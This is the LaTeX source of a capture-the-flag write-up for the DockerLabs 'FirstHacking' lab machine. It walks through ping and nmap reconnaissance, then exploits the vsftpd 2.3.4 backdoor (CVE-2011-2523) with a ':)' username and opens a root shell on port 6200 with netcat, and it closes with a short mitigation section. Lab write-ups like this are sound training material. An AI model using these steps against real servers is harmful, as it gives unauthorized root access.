\documentclass[12pt, oneside]{article}
\usepackage[T1]{fontenc}
\usepackage[spanish, es-tabla, es-lcroman]{babel}
\usepackage[utf8]{inputenc}
\usepackage[document]{ragged2e}
\usepackage{tcolorbox}
\tcbuselibrary{theorems, listings}
\usepackage{cancel}
\usepackage{amssymb}
\usepackage{amsmath}
\usepackage{mathrsfs}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{colortbl}
\usepackage{longtable}
\usepackage{diagbox}
\usepackage{graphicx}
\usepackage{subcaption}
\usepackage{xcolor}
\usepackage[table, xcdraw]{xcolor}
\usepackage{tikz}
\usetikzlibrary{positioning}
\usepackage{multicol}
\usepackage{multirow}
\usepackage{lastpage}
\usepackage{pdfpages}
\usepackage{listings}
\usepackage{blindtext}
\usepackage{tabularx}
\spanishdecimal{.}
\usepackage[explicit]{titlesec}
\usepackage[colorlinks=true, linkcolor=black, citecolor=black, urlcolor=blue]{hyperref}
\usepackage[a4paper, total={16cm, 24cm}]{geometry}
\pagestyle{fancy}
\lhead{Ian Muñoz Nuñez}
\rhead{FirstHacking}
\renewcommand{\headrulewidth}{1pt}
\renewcommand{\footrulewidth}{1pt}

\setlength{\headheight}{14.49998pt}

% \lstdefinestyle{mystyle}{
%     basicstyle=\ttfamily\large\color{font},
%     backgroundcolor=\color{background},
%     keywordstyle=\color{keywords}\bfseries,
%     stringstyle=\color{cadenas},
%     commentstyle=\color{comentarios}\itshape,
%     numberstyle=\ttfamily\color{numbers},
%     numbers=left,
%     breakatwhitespace=false,
%     breaklines=true,
%     captionpos=b,
%     showstringspaces=false,
%     showtabs=false,
%     tabsize=4,
%     frame=single,
%     escapechar=\&
% }

\definecolor{font}{RGB}{200, 200, 200}
\definecolor{background}{RGB}{40, 44, 51}
\definecolor{comentarios}{RGB}{10, 200, 10}
\definecolor{cadenas}{RGB}{170, 0, 170}
\definecolor{keywords}{RGB}{5, 5, 255}
\definecolor{numbers}{RGB}{255, 180, 10}

\definecolor{basicBash}{RGB}{150, 150, 150}
\definecolor{fondoBash}{RGB}{40, 44, 51}
\definecolor{syms}{RGB}{255, 175, 0}
\definecolor{keywordsBash}{RGB}{50, 150, 50}
\definecolor{stringBash}{RGB}{150, 50, 150}
\definecolor{enfasis}{RGB}{100, 100, 100}
% \ lstset{style=mystyle}

\newtcolorbox{codebox}{
    colback=background,
    colframe=background!80!black,
    arc=0pt,
    outer arc=0pt,
    boxrule=0.5pt,
    left=5pt,
    right=5pt,
    top=0pt,
    bottom=0pt
}

\newcommand{\colorrow}{00FF88}

\begin{document}
\sffamily\large

\tableofcontents

\newpage

\section{DockerLabs - FirstHacking}

\vfill
\subsection{General Information}

\begin{table}[h!]
    \centering
    \sffamily\large
    \begin{tabularx}{\textwidth}{r >{\raggedright\arraybackslash}X}
        \rowcolor[HTML]{\colorrow} \textbf{Machine} & FirstHacking \\
        \textbf{Difficulty} & Very easy \\
        \rowcolor[HTML]{\colorrow} \textbf{Author} & El Pingüino de Mario \\
        \textbf{Target IP} & 172.17.0.2 \\
        \rowcolor[HTML]{\colorrow} \textbf{Category} & Service: vsftpd 2.3.4
    \end{tabularx}
\end{table}

\vfill
\begin{figure}[h!]
    \centering
    
\includegraphics[width=\linewidth]{./FirstHacking.png}
\end{figure}

\vfill
\subsection{Objective}

Identify exposed services, detect vulnerabilities, and gain access
to the target system.

\vfill
\subsection{Tools}

\begin{itemize}
    \item \textcolor{cyan}{ping:} Connectivity and range check.
    \item \textcolor{cyan}{nmap:} Port and services scanning, vulnerability scripts  and recognition.
    \item \textcolor{cyan}{netcat:} Remote connection to target.
\end{itemize}

\newpage
\subsection{Ports}

\begin{table}[h!]
    \centering
    \sffamily
    \begin{tabularx}{\linewidth}{c >{\raggedright\arraybackslash}X}
        \rowcolor[HTML]{\colorrow} \textbf{Port} & \textbf{Service} \\
        \textbf{21} & FTP (2.3.4) \\
        \textbf{6200} & Vulnerability
    \end{tabularx}
\end{table}

\vfill
\subsection{Connectivity with \textcolor{cyan}{ping}}

\begin{lstlisting}[language=bash,
basicstyle=\Large\ttfamily\color{basicBash},
backgroundcolor=\color{fondoBash},
stringstyle=\color{stringBash},
emph={ping},
emphstyle=\color{keywordsBash}
]
ping -c4 172.17.0.2
\end{lstlisting}

Result:

\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.8\linewidth]{./img_1.png}
\end{figure}

\vfill
\subsection{Recognition with \textcolor{cyan}{nmap}}

\begin{lstlisting}[language=bash,
basicstyle=\Large\ttfamily\color{basicBash},
backgroundcolor=\color{fondoBash},
stringstyle=\color{stringBash},
emph={nmap},
emphstyle=\color{keywordsBash}
]
nmap -sV -p- -T4 172.17.0.2
\end{lstlisting}

Result:

\begin{figure}[h!]
    \centering
    
\includegraphics[width=\linewidth]{./img_2.png}
\end{figure}

Port 21 is exposed with service \emph{vsftpd 2.3.4} and may be
subject to exploitation.

\newpage
\subsection{Scanning for vulnerabilities with \textcolor{cyan}{nmap}}

\begin{lstlisting}[language=bash,
basicstyle=\Large\ttfamily\color{basicBash},
backgroundcolor=\color{fondoBash},
stringstyle=\color{stringBash},
emph={nmap},
emphstyle=\color{keywordsBash}
]
nmap --script 'vuln' -p 21 172.17.0.2
\end{lstlisting}

Result:

\begin{figure}[h!]
    \centering
    
\includegraphics[width=\linewidth]{./img_3.png}
\end{figure}

Vulnerability \textbf{CVE-2011-2523} found due to \textbf{vsftpd 2.3.4} version
running on target.

\vfill
\subsection{CVE-2011-2523}

Vsftpd v2.3.4 contains a backdoor triggered by entering a username ending with ':)'. This opens port 6200, which 
can be accessed via netcat.

\vfill
\subsection{Exploitation}

Start \textbf{ftp} connection with \textbf{user:)}.

\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.7\linewidth]{./img_4.png}
\end{figure}

\newpage
\subsection{Scanning ports after ftp sign in}

\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.7\linewidth]{./img_5.png}
\end{figure}

Now the port 6200 is exposed.

\vfill
\subsection{Connecting using \textcolor{cyan}{netcat} - Post-Exploitation}

\begin{codebox}
\begin{lstlisting}[language=bash,
basicstyle=\Large\ttfamily\color{basicBash},
backgroundcolor=\color{fondoBash},
stringstyle=\color{stringBash},
emph={nc},
emphstyle=\color{keywordsBash}
]
nc 172.17.0.2 6200
whoami
id
hostname
\end{lstlisting}
\end{codebox}

Result:

\begin{figure}[h!]
    \centering
    
\includegraphics[width=0.7\linewidth]{./img_6.png}
\end{figure}

Root connection stablished.

\vfill
\subsection{Key points}

\renewcommand{\labelitemi}{$\bullet$}
\begin{itemize}
    \item 21 port exposed.
    \item vsftpd v2.3.4 (CVE-2011-2523).
\end{itemize}

\newpage
\subsection{Impact}

\renewcommand{\labelitemi}{$\bullet$}
\begin{itemize}
    \item Full system compromise.
    \item Root level access obtained.
    \item No authentication required.
\end{itemize}

\subsection{Mitigation}

\renewcommand{\labelitemi}{$\bullet$}
\begin{itemize}
    \item Upgrade vsftpd to a secure version.
    \item Disable any unnecessary ports (6200) using firewall restrictions.
\end{itemize}

\subsection{Conclusion}

Target machine exploited successfully

\begin{enumerate}
    \item Identifying an exposed FTP service.
    \item Detecting a vulnerable version.
    \item Exploting the known backdoor.
    \item Connecting through root access.
\end{enumerate}

\end{document}
